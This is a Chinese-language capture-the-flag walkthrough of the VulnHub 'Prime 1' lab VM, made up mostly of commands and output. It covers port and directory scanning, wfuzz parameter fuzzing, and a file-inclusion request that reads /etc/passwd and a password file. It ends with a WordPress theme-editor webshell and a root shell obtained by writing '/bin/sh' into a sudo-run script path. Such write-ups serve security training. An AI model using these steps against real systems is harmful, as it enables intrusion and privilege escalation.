









# Prime 1

> https://download.vulnhub.com/prime/Prime_Series_Level-1.rar

靶场IP：`192.168.32.212`

扫描对外端口服务

```
┌──(root💀kali)-[/tmp]
└─# nmap -p 1-65535 -sV  192.168.32.212                                                                                                                                                                                                
Starting Nmap 7.92 ( https://nmap.org ) at 2022-09-07 04:57 EDT
Nmap scan report for 192.168.32.212
Host is up (0.00051s latency).
Not shown: 65533 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
MAC Address: 00:0C:29:5B:79:B9 (VMware)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 9.34 seconds

```

访问80端口



爆破目录

```
──(root💀kali)-[/tmp]
└─# dirb http://192.168.32.212/                                                                                                                                                                                   

-----------------
DIRB v2.22    
By The Dark Raver
-----------------

START_TIME: Wed Sep  7 04:58:27 2022
URL_BASE: http://192.168.32.212/
WORDLIST_FILES: /usr/share/dirb/wordlists/common.txt

-----------------

GENERATED WORDS: 4612                                                          

---- Scanning URL: http://192.168.32.212/ ----
+ http://192.168.32.212/dev (CODE:200|SIZE:131)                                                                                                                                                                                             
+ http://192.168.32.212/index.php (CODE:200|SIZE:136)                                                                                                                                                                                       
==> DIRECTORY: http://192.168.32.212/javascript/                                                                                                                                                                                            
+ http://192.168.32.212/server-status (CODE:403|SIZE:302)                                                                                                                                                                                   
==> DIRECTORY: http://192.168.32.212/wordpress/                                                                                                                                                                                             
                                                                                                                                                                                                                                            
---- Entering directory: http://192.168.32.212/javascript/ ----
==> DIRECTORY: http://192.168.32.212/javascript/jquery/                                                                                                                                                                                     
                                                                                                                                                                                                                                            
---- Entering directory: http://192.168.32.212/wordpress/ ----
+ http://192.168.32.212/wordpress/index.php (CODE:301|SIZE:0)                                                                                                                                                                               
==> DIRECTORY: http://192.168.32.212/wordpress/wp-admin/                                                                                                                                                                                    
==> DIRECTORY: http://192.168.32.212/wordpress/wp-content/                                                                                                                                                                                  
==> DIRECTORY: http://192.168.32.212/wordpress/wp-includes/                                                                                                                                                                                 
+ http://192.168.32.212/wordpress/xmlrpc.php (CODE:405|SIZE:42)                                                                                                                                                                             
                                                                                                                                                                                                                                            
---- Entering directory: http://192.168.32.212/javascript/jquery/ ----
+ http://192.168.32.212/javascript/jquery/jquery (CODE:200|SIZE:284394)                                                                                                                                                                     
                                                                                                                                                                                                                                            
---- Entering directory: http://192.168.32.212/wordpress/wp-admin/ ----
+ http://192.168.32.212/wordpress/wp-admin/admin.php (CODE:302|SIZE:0)                                                                                                                                                                      
==> DIRECTORY: http://192.168.32.212/wordpress/wp-admin/css/                                                                                                                                                                                
==> DIRECTORY: http://192.168.32.212/wordpress/wp-admin/images/                                                                                                                                                                             
==> DIRECTORY: http://192.168.32.212/wordpress/wp-admin/includes/                                                                                                                                                                           
+ http://192.168.32.212/wordpress/wp-admin/index.php (CODE:302|SIZE:0)                                                                                                                                                                      
==> DIRECTORY: http://192.168.32.212/wordpress/wp-admin/js/                                                                                                                                                                                 
==> DIRECTORY: http://192.168.32.212/wordpress/wp-admin/maint/                                                                                                                                                                              
==> DIRECTORY: http://192.168.32.212/wordpress/wp-admin/network/                                                                                                                                                                            
==> DIRECTORY: http://192.168.32.212/wordpress/wp-admin/user/        
```

访问`/dev`目录



访问`/wordpress`目录



扫描wordpress没有发现有用的东西

```
wpscan --url http://192.168.32.212/wordpress/
```

再次扫描文本，发现`/secret.txt `

```
┌──(root💀kali)-[/tmp]
└─# gobuster dir -w /usr/share/wordlists/dirb/common.txt -x .txt -u http://192.168.32.212/                                                                                                                                               1 ⨯
===============================================================
Gobuster v3.1.0
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://192.168.32.212/
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/dirb/common.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.1.0
[+] Extensions:              txt
[+] Timeout:                 10s
===============================================================
2022/09/07 05:04:03 Starting gobuster in directory enumeration mode
===============================================================
/.htaccess            (Status: 403) [Size: 298]
/.htaccess.txt        (Status: 403) [Size: 302]
/.htpasswd            (Status: 403) [Size: 298]
/.htpasswd.txt        (Status: 403) [Size: 302]
/.hta                 (Status: 403) [Size: 293]
/.hta.txt             (Status: 403) [Size: 297]
/dev                  (Status: 200) [Size: 131]
/index.php            (Status: 200) [Size: 136]
/javascript           (Status: 301) [Size: 321] [--> http://192.168.32.212/javascript/]
/secret.txt           (Status: 200) [Size: 412]                                        
/server-status        (Status: 403) [Size: 302]                                        
/wordpress            (Status: 301) [Size: 320] [--> http://192.168.32.212/wordpress/] 
                                                                                       
===============================================================
2022/09/07 05:04:07 Finished
===============================================================

```



根据提示访问：`https://github.com/hacknpentest/Fuzzing/blob/master/Fuzz_For_Web`

```
1. WFUZZ

====================================================================================

 #    #  ######  #    #  ######  ######
 #    #  #       #    #      #       #
 #    #  #####   #    #     #       #
 # ## #  #       #    #    #       #
 ##  ##  #       #    #   #       #
 #    #  #        ####   ######  ######


====================================================================================

--------------------------------------------------------------------------------------
(i) USE WFUZZ TO ENUMERATE CORRECT PARAMETER FOR A PAGE.
---------------------------------------------------------------------------------------

COMMNAD = wfuzz -c -w /usr/share/wfuzz/wordlist/general/common.txt  --hc 404 http://website.com/secret.php?FUZZ=something

And the result is given below

000216:  C=200      70 L	      500 W	    2006 Ch	  "configs"
000200:  C=200      70 L	      500 W	    2006 Ch	  "cm"
000201:  C=200      70 L	      500 W	    2006 Ch	  "cmd"
000195:  C=200      70 L	      500 W	    2006 Ch	  "classified"
000197:  C=200      70 L	      500 W	    2006 Ch	  "client"
000204:  C=200      70 L	      500 W	    2006 Ch	  "coke"
Finishing pending requests...


----------------------------------------------------------------------------------------------------------------------
(ii) BUT ABOVE COMMND FAILED IF PAGE ALWAYS RETURN 200(HTTP REPONSE). NOW OUR MODIFIED COMMAND IS  =======>
----------------------------------------------------------------------------------------------------------------------

COMMAND = wfuzz -c -w /usr/share/wfuzz/wordlist/general/common.txt  --hc 404 --hw 500 http://website-ip/index.php?FUZZ=something

And it will return result which is given below.

Total requests: 950

==================================================================
ID	Response   Lines      Word         Chars          Payload    
==================================================================

000357:  C=200      70 L	      500 W	    2006 Ch	  "file"

Total time: 3.753362
Processed Requests: 950
Filtered Requests: 949
Requests/sec.: 253.1063

Here we can see C=200(Our HTTP Respone from server). 
7 L ==> It means 7 lines return by server. 
500 W  ==> It means 19 words total count by wfuzz.
2006 Ch  ==> It means 206 total chars count by wfuzz which is return by server.

After using filter we can remove wrong parameter from our output and right output with right parameter we get.

--------------------------------------------------------------------------------------------------------
(*)WORKING WITH FILTERS:                                                                               |   

(i) If we want to filter words then we used switch --hw (words_lenth. In above example --hw 12)        |
(ii) To filter lenth then we used --hl(In above above example this would be --hl 7)
(iii) For chars we used --hh (In above example this would br --hh 206)                                 |
(iv) For response code we use --hc. And always we attach --hc 404. Because this is common for all.
                                                                                                       |                                                
--------------------------------------------------------------------------------------------------------
      

----------------------------------------------------------------

(iii) USE WFUZZ TO FIND OUT SUBDOMAINS.

----------------------------------------------------------------

COMMAND ==>  wfuzz -c -w /usr/share/seclists//usr/share/seclists/Discovery/DNS --hc 404 --hw 617 -u website.com -H "HOST: FUZZ.website.com"


USE filter to reach your actual subdomains like below command.

COMMAND  ==> wfuzz -c -w /usr/share/seclists//usr/share/seclists/Discovery/DNS --hc 404 --hw 7873 -u hnpsec.com -H "HOST: FUZZ.hnpsec.com"

```

爆破参数

```
┌──(root💀kali)-[/tmp]
└─# wfuzz -c -w /usr/share/wfuzz/wordlist/general/common.txt --hc 404 --hw 12 http://192.168.32.212/index.php?FUZZ
 /usr/lib/python3/dist-packages/wfuzz/__init__.py:34: UserWarning:Pycurl is not compiled against Openssl. Wfuzz might not work correctly when fuzzing SSL sites. Check Wfuzz's documentation for more information.
********************************************************
* Wfuzz 3.1.0 - The Web Fuzzer                         *
********************************************************

Target: http://192.168.32.212/index.php?FUZZ
Total requests: 951

=====================================================================
ID           Response   Lines    Word       Chars       Payload                                                                                                                                                                     
=====================================================================

000000341:   200        7 L      19 W       206 Ch      "file"                                                                                                                                                                      

Total time: 0.812484
Processed Requests: 951
Filtered Requests: 950
Requests/sec.: 1170.484

```



爆破参数

```
┌──(root💀kali)-[/tmp]
└─# wfuzz -c -w /usr/share/wfuzz/wordlist/general/common.txt --hc 404 --hw 17 http://192.168.32.212/image.php?secrettier360=FUZZ
 /usr/lib/python3/dist-packages/wfuzz/__init__.py:34: UserWarning:Pycurl is not compiled against Openssl. Wfuzz might not work correctly when fuzzing SSL sites. Check Wfuzz's documentation for more information.
********************************************************
* Wfuzz 3.1.0 - The Web Fuzzer                         *
********************************************************

Target: http://192.168.32.212/image.php?secrettier360=FUZZ
Total requests: 951

=====================================================================
ID           Response   Lines    Word       Chars       Payload                                                                                                                                                                     
=====================================================================

000000257:   200        13 L     43 W       328 Ch      "dev"                                                                                                                                                                       

Total time: 0.818729
Processed Requests: 951
Filtered Requests: 950
Requests/sec.: 1161.555

```



查看passwd文件


```
saket:x:1001:1001:find password.txt file in my directory:/home/saket:
```

根据提示访问password文件

```
┌──(root💀kali)-[/tmp]
└─# curl http://192.168.32.212/image.php?secrettier360=/home/saket/password.txt                                                                                                                                                   
<html>
<title>HacknPentest</title>
<body>
 </p></p></p>
</body>
finaly you got the right parameter<br><br><br><br>follow_the_ippsec
</html>

```

使用`victor:follow_the_ippsec`登录wordpress。并且在主题编辑器那边添加webshell



webshell：`/wordpress/wp-content/themes/twentynineteen/secret.php`



> 可以使用CVE-2017-16995进行提权。

查看sudo列表

```
www-data@ubuntu:/$ sudo -l
sudo -l
Matching Defaults entries for www-data on ubuntu:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User www-data may run the following commands on ubuntu:
    (root) NOPASSWD: /home/saket/enc

```

在`/opt/backup/server_database/backup_pass`找到密码

```
your password for backup_database file enc is 

"backup_password"

```

执行enc命令，生成`enc.txt`和`key.txt`

```
sudo /home/saket/enc
enter password: backup_password
backup_password
good
```



```
cat enc.txt
nzE+iKr82Kh8BOQg0k/LViTZJup+9DReAsXd/PCtFZP5FHM7WtJ9Nz1NmqMi9G0i7rGIvhK2jRcGnFyWDT9MLoJvY1gZKI2xsUuS3nJ/n3T1Pe//4kKId+B3wfDW/TgqX6Hg/kUj8JO08wGe9JxtOEJ6XJA3cO/cSna9v3YVf/ssHTbXkb+bFgY7WLdHJyvF6lD/wfpY2ZnA1787ajtm+/aWWVMxDOwKuqIT1ZZ0Nw4=

cat key.txt
I know you are the fan of ippsec.

So convert string "ippsec" into md5 hash and use it to gain yourself in your real form.

```

AES解密代码

```
from Crypto.Cipher import AES
from base64 import b64decode

data = b64decode(b"nzE+iKr82Kh8BOQg0k/LViTZJup+9DReAsXd/PCtFZP5FHM7WtJ9Nz1NmqMi9G0i7rGIvhK2jRcGnFyWDT9MLoJvY1gZKI2xsUuS3nJ/n3T1Pe//4kKId+B3wfDW/TgqX6Hg/kUj8JO08wGe9JxtOEJ6XJA3cO/cSna9v3YVf/ssHTbXkb+bFgY7WLdHJyvF6lD/wfpY2ZnA1787ajtm+/aWWVMxDOwKuqIT1ZZ0Nw4=")
key = b"366a74cb3c959de17d61db30591c39d1"
cip = AES.new(key,AES.MODE_ECB)
print(cip.decrypt(data).decode("utf-8"))
```

解密内容

```
Dont worry saket one day we will reach to
our destination very soon. And if you forget 
your username then use your old password
==> "tribute_to_ippsec"

Victor,
```

切换到sudo用户

```
saket@ubuntu:~$ sudo -l
sudo -l
Matching Defaults entries for saket on ubuntu:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User saket may run the following commands on ubuntu:
    (root) NOPASSWD: /home/victor/undefeated_victor

```

执行`undefeated_victor`，提示`/tmp/challenge`不存在

```
saket@ubuntu:~$ sudo /home/victor/undefeated_victor
sudo /home/victor/undefeated_victor
if you can defeat me then challenge me in front of you
/home/victor/undefeated_victor: 2: /home/victor/undefeated_victor: /tmp/challenge: not found

```

建立`challenge`文件

```
echo "/bin/sh" > /tmp/challenge && chmod +x challenge
```

提权成功

